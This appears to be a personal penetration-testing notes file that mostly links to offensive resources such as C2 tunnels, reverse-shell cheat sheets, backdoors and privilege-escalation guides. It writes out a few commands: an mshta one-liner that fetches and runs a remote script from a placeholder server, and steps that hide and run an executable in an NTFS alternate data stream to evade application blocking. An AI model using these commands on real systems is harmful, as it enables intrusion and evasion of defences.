 # Explanation of setuid setgid and sticky bits under Linux:

https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits

# DNSCAT2

This tool is designed to create an encrypted command-and-control (C&C) channel over the DNS protocol, which is an effective tunnel out of almost every network.

https://github.com/iagox86/dnscat2

# DeathStar

--> Automated AD Common exploits for domain admin

https://github.com/byt3bl33d3r/DeathStar

# Reverse Shells For Windows

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

# One liners to brute force web services

https://book.hacktricks.xyz/brute-force

# Some Backdoors

https://github.com/hackerhouse-opensource/backdoors

# Checklist Local Windows Priv Esc:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

# Priv Esc Tips:
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#system-info

# PenTesting Tools Cheatsheet:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/

# Windows Enable RDP via registry


![image](https://user-images.githubusercontent.com/97367610/149876284-ee972425-ea00-45c9-80af-4ebef8c70f37.png)


# Run VB Script with Mshta (works)

--> Commands are separated by ":"
--> Strings have a double ""

```

mshta vbscript:Execute("MsgBox(""Hello""):MsgBox(""Strings"")(window.close)")

#Download and execute a ".sct" script
 mshta vbscript:Close(Execute("GetObject(""script:http://yourserver/thing.sct"")"))



```



# Alternate Data Streams (Hide sh*t)


https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/

The Dude just ran **sysinternals access check** to find open permissions on a windows box and then
used ADS to inject an executable/Script into them, this usally bypasses Application blocking...

**If you format a flash drive as NTFS, you can move files with ADS across windows systems**

```

echo "Hello World" > a.txt
type C:\Tank.exe > C:\Temp\a.txt:Tank.exe
wmic process call create 'C:\Temp\a.txt:Tank.exe'

```


# Regsvr32 exploit 

(This doesn't seem to work on current versions of Windows, could have done it wrong however)

https://www.varonis.com/blog/living-of-the-land-lol-with-microsoft-tools-part-i-intro-to-regsvr/


# Shodan Guide

https://community.turgensec.com/shodan-pentesting-guide/


# using ctor for lol tech:
http://www.hexacorn.com/blog/2020/01/24/how-to-be-a-bad-ctor/


# Reverse Shell CheatSheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet/


# Disable Auto logoff for ssh session (normally and through hacking means)
https://www.ostechnix.com/auto-logout-inactive-users-period-time-linux/

https://stackoverflow.com/questions/17397069/unset-readonly-variable-in-bash

# SYLK Macros (Excel)
https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format/


# XLM Macros (Excel)
https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/


# Some Ports to block from outside internet:

![image](https://user-images.githubusercontent.com/97367610/149877245-034e110d-40b0-4429-9e2b-8cd074bd0c34.png)


# Best Places to Put UNC Paths:
```
https://blog.netspi.com/10-places-to-stick-your-unc-path/
```

